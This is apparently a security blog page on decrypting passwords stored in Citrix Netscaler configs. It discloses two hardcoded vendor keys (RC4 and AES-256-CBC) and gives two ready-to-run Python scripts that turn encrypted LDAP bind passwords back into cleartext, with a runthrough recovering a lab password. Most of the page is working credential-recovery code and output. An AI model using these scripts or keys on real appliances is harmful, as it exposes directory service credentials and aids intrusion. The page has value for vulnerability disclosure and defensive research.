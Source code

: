 ```yaml
---
layout: page
title: Decrypting values from the Citrix Netscaler config
permalink: /citrix-decrypt/
---
```


## Netscaler

Netscaler has a hardcoded RC4 encryption key used to encrypt cleartext passwords stored in the config, such as for LDAP. The static encryption key exists in the libnscli90.so library. As of 10.5 this was `2286da6ca015bcd9b7259753c2a5fbc2`. (now updated, see below)

The below python script will decrypt LDAP and similar encrypted values obtained from the config.
````
#!/usr/bin/python
from Crypto.Cipher import ARC4
import sys, binascii

def decrypt(key, hex):
        out_cipher = ARC4.new(key)
        decoded = out_cipher.decrypt(hex)
        return decoded

def main():
        #Key hardcoded into netscaler libnscli90.so
        key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 2:
            raw_in = sys.argv[1]
            ciphertext = binascii.unhexlify(raw_in)
            print decrypt(key,ciphertext)

main()
````

## Update:

This seems to have changed at some point and now ldap bind passwords are encrypted by default with a new technique (in the running config looks like 
`add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf`)

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance as well, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/) :*


Note the `-encryptmethod ENCMTHD_3` in the config. 

After some quick RE on a 12.0 type i figured out this ENCMTHD_3 is just AES256-CBC with a different key `351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9`. Heres the way to decrypt ENCMTHD_3 values (the default).


```
import base64
from Crypto.Cipher import AES
from Crypto import Random
import binascii,sys  


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for aes snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def encrypt( self, raw ):
        raw = pad(raw)
        iv = Random.new().read( AES.block_size )
        cipher = AES.new( self.key, AES.MODE_CBC, iv )
        return base64.b64encode( iv + cipher.encrypt( raw ) ) 

    def decrypt( self, enc ):
        iv = "\x00" * 16
        cipher = AES.new(self.key, AES.MODE_CBC, iv )
        return unpad(cipher.decrypt( enc ))



def main():
        #New Key hardcoded into netscaler libnscli90.so
        key = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")

        if len(sys.argv) == 2:  
            raw_in = sys.argv[1]
            ciphertext = binascii.unhexlify(raw_in)
            f = AESCipher(key)
            decoded= f.decrypt(ciphertext)
            print decoded[16:]


main()

```


Runthrough

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

#python decrypt-new.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f

test12345678secretldappassword
```

